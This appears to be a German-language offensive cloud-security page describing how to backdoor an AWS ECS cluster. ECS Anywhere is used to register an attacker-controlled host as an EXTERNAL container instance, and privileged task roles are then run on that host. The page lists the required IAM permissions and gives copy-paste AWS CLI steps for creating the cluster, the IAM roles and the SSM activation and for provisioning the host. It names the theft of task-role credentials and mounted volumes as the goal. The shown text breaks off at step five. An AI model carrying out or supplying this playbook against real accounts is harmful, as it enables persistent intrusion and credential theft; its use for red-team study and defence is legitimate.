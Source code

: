 
<details><summary>Schritt-für-Schritt Befehle (kopieren/einfügen)</summary></details>

### Backdoor compute in-cluster via ECS Anywhere EXTERNAL registration

ECS Anywhere missbrauchen, um einen vom Angreifer kontrollierten Host als EXTERNAL container instance in einem Opfer-ECS-Cluster zu registrieren und Tasks auf diesem Host mit privilegierten task- und execution-roles auszuführen. Dies verschafft OS‑Level-Kontrolle darüber, wo Tasks laufen (dem eigenen Rechner) und ermöglicht das Stehlen von Credentials/Daten aus Tasks und angehängten Volumes, ohne Capacity Providers oder ASGs anzufassen.

- Erforderliche Berechtigungen (Beispiel minimal):
- ecs:CreateCluster (optional), ecs:RegisterTaskDefinition, ecs:StartTask or ecs:RunTask
- ssm:CreateActivation, ssm:DeregisterManagedInstance, ssm:DeleteActivation
- iam:CreateRole, iam:AttachRolePolicy, iam:DeleteRole, iam:PassRole (for the ECS Anywhere instance role and task/execution roles)
- logs:CreateLogGroup/Stream, logs:PutLogEvents (if using awslogs)

- Auswirkung: Beliebige Container mit ausgewähltem taskRoleArn auf dem Angreifer-Host ausführen; Task-Role-Credentials von 169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI exfiltrieren; auf alle von Tasks eingehängten Volumes zugreifen; unauffälliger als das Manipulieren von Capacity Providers/ASGs.

Schritte

1) Cluster erstellen/identifizieren (us-east-1)
```bash
aws ecs create-cluster --cluster-name ht-ecs-anywhere
```
2) ECS Anywhere-Rolle erstellen und SSM-Aktivierung (für on-prem/EXTERNAL Instanz)
```bash
aws iam create-role --role-name ecsAnywhereRole \
--assume-role-policy-document '{"Version":"2012-10-17","Statement":[{"Effect":"Allow","Principal":{"Service":"ssm.amazonaws.com"},"Action":"sts:AssumeRole"}]}'
aws iam attach-role-policy --role-name ecsAnywhereRole --policy-arn arn:aws:iam::aws:policy/AmazonSSMManagedInstanceCore
aws iam attach-role-policy --role-name ecsAnywhereRole --policy-arn arn:aws:iam::aws:policy/service-role/AmazonEC2ContainerServiceforEC2Role
ACTJSON=$(aws ssm create-activation --iam-role ecsAnywhereRole)
ACT_ID=$(echo $ACTJSON | jq -r .ActivationId); ACT_CODE=$(echo $ACTJSON | jq -r .ActivationCode)
```
3) Angreifer-Host provisionieren und automatisch als EXTERNAL registrieren (Beispiel: kleine AL2 EC2 als “on‑prem”)

<details><summary>user-data.sh</summary></details>
```bash
AMI=$(aws ssm get-parameters --names /aws/service/ami-amazon-linux-latest/amzn2-ami-hvm-x86_64-gp2 --query 'Parameters[0].Value' --output text)
IID=$(aws ec2 run-instances --image-id $AMI --instance-type t3.micro \
--user-data file://user-data.sh --query 'Instances[0].InstanceId' --output text)
aws ec2 wait instance-status-ok --instance-ids $IID
```
4) Überprüfen, ob die EXTERNAL Container-Instance beigetreten ist
```bash
aws ecs list-container-instances --cluster ht-ecs-anywhere
aws ecs describe-container-instances --cluster ht-ecs-anywhere \
--container-instances <ci-arn> --query 'containerInstances[0].[ec2InstanceId,attributes]'
# ec2InstanceId will be mi-XXXXXXXX (SSM managed instance id) and attributes include ecs.capability.external
```
5) Erstelle task/execution roles, registriere die EXTERNAL task definition und führe sie auf dem attacker host aus
```bash
# roles
aws iam create-role --role-name ht-ecs-task-exec \
--assume-role-policy-document '{"Version":"2012-10-17","Statement":[{"Effect":"Allow","Principal":{"Service":"ecs-tasks.amazonaws.com"},"Action":"sts:AssumeRole"}]}'
```